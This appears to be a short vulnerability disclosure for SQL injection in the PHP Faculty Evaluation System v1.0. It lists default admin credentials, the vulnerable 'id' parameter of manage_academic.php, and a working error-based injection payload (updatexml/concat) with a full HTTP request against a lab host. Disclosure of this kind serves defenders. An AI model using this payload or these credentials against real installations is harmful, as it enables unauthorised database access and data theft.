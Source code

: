 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

Admin account password： admin@admin.com/admin123
 
BUG_Author: f0llow

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/admin/manage_academic.php?id=

Vulnerability location: /eval/admin/manage_academic.php?id=, id

dbname =evaluation_db

[+] Payload: /eval/admin/manage_academic.php?id=3%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

 ```sql
 GET /eval/admin/manage_academic.php?id=3%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close
 ```

![image](https://user-images.githubusercontent.com/54017627/233827568-4c714fa0-db0b-40ce-a7a8-6bc02fc04352.png)
